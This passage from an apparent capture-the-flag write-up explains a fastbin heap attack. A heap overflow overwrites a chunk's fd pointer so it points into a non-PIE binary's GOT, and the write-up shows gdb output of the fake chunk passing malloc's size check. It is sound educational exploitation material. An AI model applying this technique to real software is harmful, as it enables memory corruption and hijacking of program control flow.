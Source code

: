 Then, we allocate the chunk in `fastbin[4]`, and copy our data into the chunk. Since there's a heap overflow vulnerability, we can actually overwrite the data in chunk @ `fastbin[2]` -- by setting the `offet` variable to `0x60` ( `0xc26c20` + `0x60` = `0xc26c80` ). We overwrite the `fd` pointer in chunk @ `fastbin[2]`, making it point to the GOT area. This is because in an x64 non-PIE binary, its GOT entries will contain some address which start with `0x40` (if the function hasn't been resolved yet):
```
gdb-peda$ tel 0x604018
00:0000|  0x604018 --> 0x7fbdea10c800 (<__printf>:      sub    rsp,0xd8)
-------------------------------------------------------------------------
01:0008|  0x604020 --> 0x400ab6 (<__gmon_start__@plt+6>:        push   0x1)
-------------------------------------------------------------------------
02:0016|  0x604028 --> 0x7fbdea126690 (<_IO_puts>:      push   r12)
03:0024|  0x604030 --> 0x7fbdea723f10 (<operator new[](unsigned long)>: sub    rsp,0x8)
04:0032|  0x604038 --> 0x7fbdea721f10 (<operator delete(void*)>:        jmp    0x7fbdea71ddb0 <free@plt>)
05:0040|  0x604040 --> 0x7fbdea126e70 (<__GI__IO_setvbuf>:      push   rbp)
-------------------------------------------------------------------------
06:0048|  0x604048 --> 0x400b06 (<fopen@plt+6>: push   0x6)
-------------------------------------------------------------------------
07:0056|  0x604050 --> 0x7fbdea0d7740 (<__libc_start_main>:     push   r14)
```
If we off-set the memory layout in the GOT area, we could found that it actually has some good `fastbin[2]`(again, size = 0x40) chunks:
```
0x604042 <setvbuf@got.plt+2>:   0x0b0600007fbdea12      0x7740000000000040  <-- here
0x604052 <__libc_start_main@got.plt+2>: 0x4ad000007fbdea0d      0x1b7000007fbdea12
0x604062 <strlen@got.plt+2>:    0xdea000007fbdea14      0xc3c000007fbdea0e
0x604072 <signal@got.plt+2>:    0x0b6600007fbdea0e      0x2650000000000040 <-- here
0x604082 <alarm@got.plt+2>:     0x0b8600007fbdea18      0x0b96000000000040 <-- here
0x604092 <dlsym@got.plt+2>:     0x0ba6000000000040      0x0bb6000000000040 <-- and here !
```
While allocating a fastbin chunk, **malloc.c will only check if its size is valid**. For example, a chunk in `fastbin[2]` must have a size of `0x4X` ( yep, even a size of `0x4f` will still pass the check). So, after we overwrite the `fd` pointer in the chunk @ `fastbin[2]`:
```
gdb-peda$ hip
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x1da3cc0 --> 0x0
(0x40)     fastbin[2]: 0x1da3c80 --> 0x604042 (size error (0xc740000000000040)) --> 0x9ad000007f5e059a (invaild memory)
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x1da3c20 --> 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x1da3f80 (size : 0x1c080) 
       last_remainder: 0x1da3e00 (size : 0x50) 
            unsortbin: 0x0
gdb-peda$
```
We could see that `fastbin[2]` will have a fake chunk @ `0x604042` ( no need to worry about the size, **malloc.c** will only check the size with type `unsigned int` , just focus on the first 4 bytes ).  
